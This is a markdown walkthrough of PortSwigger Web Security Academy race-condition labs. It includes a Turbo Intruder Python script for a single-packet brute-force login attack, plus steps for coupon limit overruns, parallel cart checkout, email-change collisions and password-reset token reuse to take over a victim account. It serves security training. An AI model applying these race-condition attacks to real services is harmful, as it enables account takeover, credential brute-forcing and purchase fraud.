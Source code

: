 ### Limit overrun race conditions

In this exercise you'll learn how to send several gifts coupons. Send the POST /cart/coupon to repeater, duplicate 19 times, and send requests in sequence until you have enough discount and can buy the jacket

---
### Bypassing rate limits via race conditions

Try to log in with the credentials, but input a wrong password.

In the POST /login request, highlight the password field and select Extensions > Turbo Intruder > Send to turbo intruder
Change the username for "carlos" and use this python code:
```python
def queueRequests(target, wordlists):

    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    
    # assign the list of candidate passwords from your clipboard
    passwords = wordlists.clipboard
    
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```

Copy the password list to your clipboard, and start the attack. You should see a 302 response. That's Carlos password.
Log in and delete the account.

---
### Multi-endpoint race conditions

Send the /cart and /cart/checkout to repeater, create a tab group. 

Set the /cart to add the productId=1 (the jacket), and then send the requests in parallel. Repeat until it's solved. 

---
### Single-endpoint race conditions

Send two requests to POST /my-account/change-email to the repeater, and create a tab group

In one request, cange the email parameter to `anything@exploit-<YOUR-EXPLOIT-SERVER-ID>.exploit-server.net` and the other to `carlos@ginandjuice.shop` 

Send it until you receive the change confirmation for the carlos email address. Click the link on the email server, and then refresh your home page. 
You'll see the admin panel, delete Carlos account.

---
### Exploiting time-sensitive vulnerabilities

Go to the forgot password functionality, complete the values for your user, and send the POST /forgot-password to the repeater. Send 2 of this requests. 
To get a different phpsessionid and csrf value, send a GET /forgot-password without any cookie, and copy the csrf and cookie values in the response. 
Use that values to the 2nd request to POST /forgot-password, and in the second one, change the username to carlos.

Send the request in parallel until you receive the same code for both users.
To validate, paste the url you get in the browser, and replace the username with "carlos". If you go to the change password window, it worked. 

`https://0af4008503995d5482a5fb30001500a6.web-security-academy.net/forgot-password?user=<USER-NAME>&token=80a4d07a9da468a2eba6be57208d60d9a7df094d`